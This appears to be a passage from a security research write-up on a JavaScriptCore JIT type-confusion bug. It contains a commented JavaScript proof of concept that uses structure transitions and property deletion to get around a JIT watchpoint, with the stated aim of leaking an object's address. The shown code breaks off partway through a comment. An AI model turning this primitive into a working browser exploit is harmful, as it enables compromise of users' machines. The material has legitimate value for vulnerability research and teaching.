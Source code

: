 **Note:** Types representation and how type confusion between a pointer and a double works are explained by Saelo in his Phrack article. tl;dr arrays of doubles are stored in native representation as opposed to the NaN-boxed representation.

Below is a commented PoC leaking the address of an object.

```javascript
var obj = [4.2];
/*
  An array obj is created and is described by a simple Structure:
    
    +-------------------+
    |                   |
    |  Original  array  |
    | (current  struct) |
    +-------------------+
*/

obj.a = 10;
/*
  A new property is added dynamically, which means a new Structure has to be created
  to describe the new object:
    
    +-------------------+       +-------------------+
    |                   |       |                   |
    |  Original  array  | ----> | Added  property a |
    |                   |       | (current  struct) |
    +-------------------+       +-------------------+
*/

obj.b = 20;
/*
  Same scenario as above:
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       |                   |
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       |                   |       | (current  struct) |
    +-------------------+       +-------------------+       +-------------------+
*/

function get_first_elmt() {
    return obj[0];
}

for (var i = 0; i < 100000; i++) {
    get_first_elmt();
}
/*
  Now the function get_first_elmt is jitted. It expects to read the first element of
  the array stored in obj as a double. Since all these information are stored in
  the structure describing obj, a watchpoint is put on it by the JIT engine. 
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       | (Watchpoint here)	|
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       |                   |       | (current  struct) |
    +-------------------+       +-------------------+       +-------------------+
*/

delete obj.b;
/*
  The latest added property, b, is removed with tryDeletePropertyQuickly. No transition
  occurs and the watchpoint is not triggered. However, the structure used to describe
  the object obj is changed back to "Added property a".
```